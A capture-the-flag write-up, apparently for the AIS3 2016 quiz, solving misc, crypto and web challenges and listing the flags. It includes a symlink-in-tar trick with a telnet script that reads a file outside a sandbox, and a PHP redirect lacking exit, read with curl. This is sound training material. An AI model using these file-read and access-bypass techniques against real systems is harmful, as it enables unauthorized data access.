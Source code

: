 ## misc-1

Open the misc1.txt

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip


## misc-3

Hint: symbolic link (透過 tar 可保留 synblic link)

`ln -s ../flag.txt guess.txt`

`tar cvf guess.tar guess.txt`

`python misc3_sol.py`

Here is the misc3_sol.py code 

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```

The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [pwntool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面
![crypto1/xortool_sol.png](crypto1/xortool_sol.png)

得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰 

經過了多次修改，得到了最後的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2


## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到沒有 `exit` 跟 `die`，因此 body content 還是會輸出

```
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: {admin's_pane1_is_on_fir3!!!!!}</body>
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3



